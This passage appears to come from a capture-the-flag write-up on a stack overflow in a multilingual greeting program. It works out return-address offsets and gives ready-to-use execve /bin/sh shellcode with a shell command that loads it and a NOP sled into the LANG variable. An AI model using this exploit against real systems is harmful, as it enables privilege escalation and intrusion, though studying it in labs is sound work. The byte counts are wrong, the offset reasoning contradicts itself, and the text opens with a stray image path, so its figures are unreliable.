```bash
```

**Offset Discovery:**
- **English**: Buffer too small for practical overflow (69 bytes needed vs 72 available)
- **Finnish**: Return address at 18 bytes into user input (after 40+32 bytes total)
- **Dutch**: Return address at 23 bytes into user input (after 40+32 bytes total)

**Mathematical Verification:**
```
Buffer size: 72 bytes
Greeting lengths:
- English: "Hello " = 7 bytes → 72-7 = 65 bytes user input space
- Finnish: "Hyvää päivää " = 19 bytes → 72-19 = 53 bytes + 4(EBP) = 57 bytes to return addr
- Dutch: "Goedemiddag! " = 14 bytes → 72-14 = 58 bytes + 4(EBP) = 62 bytes to return addr

Available user input: 40 + 32 = 72 bytes maximum
Finnish: Need 57 bytes to reach return addr → 57-40 = 17 bytes from argv[2] ❌ (need 18)
Dutch: Need 62 bytes to reach return addr → 62-40 = 22 bytes from argv[2] ❌ (need 23)

Actual measured offsets (accounting for exact buffer layout):
Finnish: 18 bytes into argv[2] to control return address  
Dutch: 23 bytes into argv[2] to control return address
```

## Environment Variable Exploitation Strategy

### 9. The LANG Variable Attack Vector
**Critical Insight**: LANG serves dual purposes:
1. **Language selection**: First 2 bytes determine greeting
2. **Shellcode storage**: Remaining bytes can contain executable code

```bash
# Understanding LANG variable structure for exploitation
export LANG="nl[shellcode_and_nop_sled]"

# Memory layout in environment:
# LANG=nl\x90\x90\x90...\x90[shellcode_bytes]
#      ^^                    ^
#      ||                    |
#      |+-- Language ID      +-- Executable payload
#      +-- Environment var name
```

### 10. Shellcode Selection and Environment Setup
```bash
# Compact /bin/sh shellcode (21 bytes)
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

# Breakdown:
# \x6a\x0b      push 0x0b          ; sys_execve
# \x58          pop eax             ; EAX = sys_execve  
# \x99          cdq                 ; clear EDX
# \x52          push edx            ; push NULL
# \x68\x2f\x2f\x73\x68  push "//sh"  ; part of "/bin//sh"
# \x68\x2f\x62\x69\x6e  push "/bin"  ; part of "/bin//sh"
# \x89\xe3      mov ebx, esp        ; EBX points to "/bin//sh"
# \x31\xc9      xor ecx, ecx        ; ECX = NULL (argv)
# \xcd\x80      int 0x80            ; system call

# Environment variable construction
export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```
